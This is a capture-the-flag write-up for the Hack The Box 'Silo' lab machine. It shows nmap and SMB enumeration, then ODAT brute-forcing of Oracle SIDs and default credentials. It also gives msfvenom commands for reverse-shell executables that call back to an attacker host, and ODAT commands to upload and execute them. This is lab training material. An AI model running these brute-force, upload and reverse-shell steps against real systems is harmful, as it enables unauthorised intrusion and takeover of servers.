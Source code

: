 # HTB - Silo  10.10.10.82


- Microsoft Windows Server 2012 R2 Standard
- 6.3.9600 N/A Build 9600
- 149 Hotfix(s) Installed.

- IIS 8.5
- Oracle TNS listener 11.2.0.2.0


- Bruteforce Oracle SID with ODAT and sid list
- Bruteforce user/pass with ODAT and oracle_user_passwd list
- Use ODAT to Upload reverse shell
- Use ODAT to Execute local file (our reverse shell)
- NC Shell is System/Admin




## Walkthrough
- https://v3ded.github.io/ctf/htb-silo.html
- https://medium.com/@DRX_Sicher/walkthrough-silo-hackthebox-929f7f0a7431
- https://medium.com/@sathish__kumar/hackthebox-silo-writeup-5fe92ac04bb5
- https://0xdf.gitlab.io/2018/08/04/htb-silo.html



## Nmap

````
nmap -sC -sV -oA nmap/initial 10.10.10.82

PORT      STATE SERVICE      VERSION
80/tcp    open  http         Microsoft IIS httpd 8.5
| http-methods:
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/8.5
|_http-title: IIS Windows Server
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn?
445/tcp   open  microsoft-ds Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
1521/tcp  open  oracle-tns   Oracle TNS listener 11.2.0.2.0 (unauthorized)
49152/tcp open  msrpc        Microsoft Windows RPC
49153/tcp open  msrpc        Microsoft Windows RPC
49154/tcp open  msrpc        Microsoft Windows RPC
49155/tcp open  msrpc        Microsoft Windows RPC
49158/tcp open  msrpc        Microsoft Windows RPC
49160/tcp open  oracle-tns   Oracle TNS listener (requires service name)                                                                                 49161/tcp open  msrpc        Microsoft Windows RPC
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submi
t.cgi?new-service :
SF-Port139-TCP:V=7.70%I=7%D=4/21%Time=5ADBEBEB%P=x86_64-pc-linux-gnu%r(Get
SF:Request,5,"\x83\0\0\x01\x8f");
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: -1s, deviation: 0s, median: -1s
| smb-security-mode:
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: supported
| smb2-security-mode:
|   2.02:
|_    Message signing enabled but not required
| smb2-time:
|   date: 2018-04-21 21:58:51
|_  start_date: 2018-04-21 15:47:47
````

## SMB

```
# enum4linux 10.10.10.82
Starting enum4linux v0.8.9 ( http://labs.portcullis.co.uk/application/enum4linux/ ) on Sun Sep 22 16:14:47 2019

 ========================== 
|    Target Information    |
 ========================== 
Target ........... 10.10.10.82
RID Range ........ 500-550,1000-1050
Username ......... ''
Password ......... ''
Known Usernames .. administrator, guest, krbtgt, domain admins, root, bin, none


 =================================================== 
|    Enumerating Workgroup/Domain on 10.10.10.82    |
 =================================================== 
[E] Can't find workgroup/domain


 =========================================== 
|    Nbtstat Information for 10.10.10.82    |
 =========================================== 
Looking up status of 10.10.10.82
No reply from 10.10.10.82

 ==================================== 
|    Session Check on 10.10.10.82    |
 ==================================== 
Use of uninitialized value $global_workgroup in concatenation (.) or string at ./enum4linux.pl line 437.
[E] Server doesn't allow session using username '', password ''.  Aborting remainder of tests.
```


## Oracle

### Install ODAT 


ODAT is found here  : https://github.com/quentinhardy/odat
- Get standalone : https://github.com/quentinhardy/odat/releases/download/2.3/odat-linux-libc2.5-x86_64-v2.3.zip   (Best option)
- Or,install all from scratch and Install Oracle drivers : https://v3ded.github.io/ctf/htb-silo.html

More about Oracle
Metasploit:
    -https://github.com/rapid7/metasploit-framework/wiki/How-to-get-Oracle-Support-working-with-Kali-Linux
    -https://blog.zsec.uk/msforacle/
ODAT:
    -https://github.com/quentinhardy/odat/blob/master/README.md (scroll down to the install section) 


Install odat in /opt
Copy /usr/share/wordlists/metasploit/oracle_default_userpass.txt /opt/odat/accounts then replace space by / =>  LOGIN/PASS


### Brute force SID

```
# /opt/odat/odat sidguesser -s 10.10.10.82 -p 1521

[1] (10.10.10.82:1521): Searching valid SIDs
[1.1] Searching valid SIDs thanks to a well known SID list on the 10.10.10.82:1521 server
[+] 'XE' is a valid SID. Continue...                                                                                                                                   
[+] 'XEXDB' is a valid SID. Continue...                                                                                                                                
100% |##############################################################################################################| Time: 00:02:19 
[1.2] Searching valid SIDs thanks to a brute-force attack on 1 chars now (10.10.10.82:1521)
100% |##############################################################################################################| Time: 00:00:05 
[1.3] Searching valid SIDs thanks to a brute-force attack on 2 chars now (10.10.10.82:1521)
[+] 'XE' is a valid SID. Continue...                                                                                                                                   
100% |##############################################################################################################| Time: 00:02:02 
[+] SIDs found on the 10.10.10.82:1521 server: XE,XEXDB
Failed to execute script odat
```



### Brute force login/password

```# ./opt/odat/odat passwordguesser -s 10.10.10.82 -p 1521 -d XE --accounts-file /opt/odat/accounts/msf_oracle_default_userpass.txt 


[1] (10.10.10.82:1521): Searching valid accounts on the 10.10.10.82 server, port 1521
The login cdemo82 has already been tested at least once. What do you want to do:                                                                      | ETA:  00:02:25 
- stop (s/S)
- continue and ask every time (a/A)
- continue without to ask (c/C)
c
[+] Valid credentials found: scott/tiger. Continue...                                                                                                                  
100% |################################################################################################################################################| Time: 00:03:27 
[+] Accounts found on 10.10.10.82:1521/XE: 
scott/tiger

Failed to execute script odat
```  
    
    
### Reverse shell for windows

```
Meterpreser staged for msf handler
msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=10.10.14.18 lport=4444 -f exe > reverse.exe

Reverse TCP for nc
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.18 LPORT=4444 -f exe > shell2.exe
```

### Upload file


```
# /opt/odat/odat  utlfile -s 10.10.10.82 -p 1521 -U scott -P tiger -d XE --sysdba --putFile c:/ reverse.exe reverse.exe

[1] (10.10.10.82:1521): Put the reverse.exe local file in the c:/ folder like reverse.exe on the 10.10.10.82 server
[+] The reverse.exe file was created on the c:/ directory on the 10.10.10.82 server like the reverse.exe file

```


### Execute shell

```
/opt/odat/odat externaltable -s 10.10.10.82 -p 1521 -U scott -P tiger -d XE --sysdba --exec c:/reverse.exe
```

### NC

```

```